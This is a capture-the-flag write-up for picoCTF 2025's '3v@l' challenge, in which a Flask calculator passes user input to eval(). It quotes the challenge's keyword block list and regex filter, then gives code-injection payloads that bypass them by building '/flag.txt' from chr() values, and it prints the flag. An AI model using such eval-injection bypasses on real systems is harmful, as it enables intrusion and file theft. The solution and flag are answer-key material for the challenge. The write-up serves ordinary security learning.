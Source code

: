 # 3v@l
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
- [Reference](#reference)
## Challenge information
```text
Tags: Web Explotation, picoCTF 2025, browser_webshell_solvable

Description:  
ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

Hints:
1. Bypass regex
2. The flag file is /flag.txt
3. You might need encoding or dynamic construction to bypass restrictions.
```
## Overview
### A web executes what we type
![alt text](/picoCTF/Static/Images/3v@l/image.png)
## Solution
**Step1:** Recon  
* Based on the description, we can see that the web uses the `eval()` function to calculate what we enter.  
* After viewing the source i can see the web is giving us filtered characters and letters  
```
  Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
```
**Step2:** Exploit  
* Web uses blacklists to block harmful characters, but that's not enough.  
* The simplest way is to concatenate strings to read flags, combined with using Unicode.  
`open(chr(47)+'f'+'l'+'a'+'g'+'.'+'t'+'x'+'t').read()`
## Flag
`picoCTF{D0nt_Use_Unsecure_f@nctions0c312090}`
## Reference
* Nếu sandbox chặn open trực tiếp hoặc chặn dấu (/)/+ kiểu đó, phương án thay thế an toàn là dùng __import__('builtins').open(...):
`__import__('builtins').open(''.join(map(chr,[47,102,108,97,103,46,116,120,116]))).read()
`

